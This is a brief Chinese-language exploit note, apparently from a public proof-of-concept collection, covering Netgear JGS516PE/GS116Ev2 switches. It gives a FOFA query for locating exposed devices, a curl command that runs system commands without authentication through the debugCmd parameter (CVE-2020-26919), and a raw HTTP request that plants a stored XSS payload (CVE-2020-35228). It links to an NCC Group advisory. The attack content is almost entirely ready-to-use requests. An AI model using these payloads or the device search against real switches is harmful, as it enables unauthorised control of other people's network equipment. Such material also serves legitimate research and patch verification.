 # Netgear JGS516PE/GS116Ev2 交换机中多个高危漏洞

FOFA:

```
title="Netgear ProSAFE Plus Switch"
```

**1.未经身份验证的远程代码执行（CVE-2020-26919）**

漏洞点位于login.html中的SubmitId参数，未对调试操作做限制导致用户执行系统命令。

```bash
curl -X POST --data-raw 'submitId=debug&debugCmd=sys+dump&submitEnd='
'http://<IP>/login.htm'
```

**4.存储型XSS（CVE-2020-35228）**


```bash
POST /index.htm HTTP/1.1
Host: 192.168.0.239
User-Agent: (...snip...)
Accept: (...snip...)
Accept-Language: (...snip...)
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 158
Origin: http://192.168.0.239
Connection: close
Referer: http://192.168.0.239/index.htm?0
Cookie: (...snip...)
Upgrade-Insecure-Requests: 1

submitId=multiLanguageCfg&selectLang=aaaa';alert(1);//&multiLangFlag=0&RegisterStatus=0&registeredPopUp=0&changePwdPopUp=0&changePwd=0&confirmPwd=0&submitEnd=
```

详情：https://research.nccgroup.com/2021/03/08/technical-advisory-multiple-vulnerabilities-in-netgear-prosafe-plus-jgs516pe-gs116ev2-switches/
